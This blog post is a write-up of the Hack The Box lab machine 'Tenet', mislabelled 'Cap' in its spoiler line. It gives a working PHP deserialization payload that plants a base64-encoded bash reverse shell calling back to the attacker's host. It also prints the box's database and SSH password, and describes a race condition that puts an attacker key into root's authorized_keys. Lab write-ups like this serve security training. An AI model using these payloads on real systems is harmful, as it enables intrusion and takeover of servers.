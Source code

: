 ```yaml
---
title: "HTB: Tenet Writeup"
date: 2021-06-07T18:46:00-07:00
categories:
  - blog
  - writeup
  - htb
tags:
  - htb
  - htb medium
  - offsec
---
```


There are spoilers below for the Hack The Box box named Cap. Stop reading here if you do not want spoilers!!!

---

# Enumeration

Beginning this box as every box, with a `nmap` scan of the box to locate open ports.

```bash
$ sudo nmap -sC -sV -oA nmap/tenet 10.10.10.223
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 20:00 EDT
Nmap scan report for 10.10.10.223
Host is up (0.079s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.61 seconds
```

# Foothold
The box appears to have only two open ports (`80` and `22`). Visiting port `80`, it appears to be an Apache site, so then running `gobuster` on it locates an interesting directory:

```bash
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -u http://10.10.10.223
...{snip}...
/wordpress (Status: 301}
...{snip}...
```

Visiting the `/wordpress` URL in Firefox gives a badly formatted Wordpress site, which looks like it's trying to add resources from `tenet.htb`. So we may add `10.10.10.223 tenet.htb` to our `/etc/hosts` file.

Browsing the site, I see a user `neil` posted a comment:
> did you remove the sator php file and the backup?? the migration program is incomplete! why would you do this?!

So that's interesting, it sounds like there's a "sator" php file (maybe `sator.php`?). Visiting `http://tenet.htb/sator.php` gives a 404 error, but remembering from before, we're within the `/wordpress` directory, so what about `http://10.10.10.223/sator.php`? Success!!

This `sator.php` script is printing the following:

> [+] Grabbing users from text file
> [] Database updated

The comment from neil on the Wordpress form mentioned a backup file, so accessing `http://10.10.10.223/sator.php.bak` and it exists!

```php
<?php

class DatabaseExport
{
        public $user_file = 'users.txt';
        public $data = '';

        public function update_db()
        {
                echo '[+] Grabbing users from text file <br>';
                $this-> data = 'Success';
        }


        public function __destruct()
        {
                file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
                echo '[] Database updated <br>';
        //      echo 'Gotta get this working properly...';
        }
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

Examining this PHP script, we may see that it is receiving user input via `arepo` variable, passing that to `unserialize`, then calling the `DatabaseExport` class. This looks like a classic example of PHP object deserialization. Basically, from my understanding, what is happening is that PHP will allow you to serialize a class and all of the data within it into a string which may then be deserialized back into a class. Then when the control flow exits, the `__destruct` function is called on it. In this example, the `__destruct` function writes the `data` value to `user_file`. [More on PHP deserialization may be read here](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a).

Since we know the name of the class (`DatabaseExport`) as well as the variable names (`user_file` and `data`), we can construct a payload that is a deserialized PHP object that will allow us to write data out to an arbitrary output file of our choice.

For this payload, we will write out to a PHP file with a very basic reverse shell.

To begin with, the reverse shell that I'd like to attempt is the following:

```bash
/bin/bash -c 'bash -i > /dev/tcp/10.10.14.204/9000 0>&1'
```

Wrapping this in a PHP script to execute it, I get:

```php
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.204/9000 0>&1'"); ?>
```

However, I forsee a problem here. Specifically the "&" character, which in a URL is treated as a special delimiter and might throw the payload off. So instead I'm going to base64 encode the reverse shell payload:

```bash
$ echo "/bin/bash -c 'bash -i > /dev/tcp/10.10.14.204/9000 0>&1'" | base64
L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK
```

Then, use the `base64_decode` function in PHP to decode it before executing it:

```php
<?php exec(base64_decode("L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK"));
```

So that's the payload I want to eventually write to a file.

Next up, I need to serialize that and put it into a proper payload that will deserialize correctly. For this, I'll construct the following payload:

```
O:14:"DatabaseExport":2:{s:9:"user_file";s:10:"rshell.php";s:4:"data";s:106:"<?php exec(base64_decode("L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK"));";}
```

Above we begin with "O" (the letter Oh, not the number zero) to tell PHP that this is an object, followed by the length of the name (14) and the name ("DatabaseExport"). Next the "2" tells PHP that there are two elements in the next section. Within the section we use "s" to denote a string, then "9" for the length of the next string, which is the name of the variable, and the variable itself ("user_file"). Following that we have the same format to provide the variable contents ("rshell.php"). This is then repeated for the "data" variable to contain our payload.

If all goes well, this should generate a file named "rshell.php" which contains the payload to generate a reverse shell.

When using FireFox, the payload may be directly pasted in and FireFox will encode it. However, I like to be a little cautious and pre-encode before uploading.

```bash
$ hURL -U 'O:14:"DatabaseExport":2:{s:9:"user_file";s:10:"rshell.php";s:4:"data";s:106:"<?php exec(base64_decode("L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK"));";}'

Original    :: O:14:"DatabaseExport":2:{s:9:"user_file";s:10:"rshell.php";s:4:"data";s:106:"<?php exec(base64_decode("L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK"));";}
URL ENcoded :: O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A10%3A%22rshell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A106%3A%22%3C%3Fphp%20exec%28base64_decode%28%22L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK%22%29%29%3B%22%3B%7D
```

Now that we have the URL encoded payload, we may submit this via the PHP page.

```bash
$ curl 'http://10.10.10.223/sator.php?arepo=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A10%3A%22rshell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A106%3A%22%3C%3Fphp%20exec%28base64_decode%28%22L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK%22%29%29%3B%22%3B%7D' 
```

Setting up a netcat listener and visiting the page, we receive a successful callback.

```bash
$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [10.10.14.204] from (UNKNOWN) [10.10.10.223] 29836
python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@tenet:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@tenet:/var/www/html$
```

We've successfully logged in as the `www-data` user!

# Privesc

Now we need to enumerate and determine exactly what we can do. For this I ran `linpeas.sh` to locate anything useful, which found the MySQL login information

> Mysql Database: wordpress
> Mysql User: neil
> Mysql Pass: Opera2112

Quickly checking those credentials, the user `neil` has the same password for SSH, so we now have SSH access as `neil`.

An additional note is that the script `/usr/local/bin/enableSSH.sh` may be executed by `sudo` by all users. However, without the `www-data` password, that wasn't possible. But now that we have `neil`, that's possible.

Taking a closer look at the `enableSSH.sh` script, it appears to have a hardcoded SSH public key inside of it, it then writes that key to a temporary file, then echos that temporary file into `/root/.ssh/authorized_keys`. If we're able to somehow intercept that temporary file after it is created but before it is sent into the root SSH keys, we can inject our own key into it. This is basically a race condition.

To do this, we could use `python` since that's on the box, but it's also possible to do this with a simple bash script.

```bash
$ while true; do echo "ssh-rsa AAAAB3NzaC1yc2EAAAA...AlU= kali@kali" | tee /tmp/ssh-* >/dev/null; done
```

The above will loop continuously and copy our SSH public key into the `/tmp/ssh-*` file path if/when it exists. This took a couple times before it successfully worked.

```bash
$ sudo /usr/local/bin/enableSSH.sh
```

After executing the above a few times to make sure that the SSH key has made it in, we can then SSH in as root!
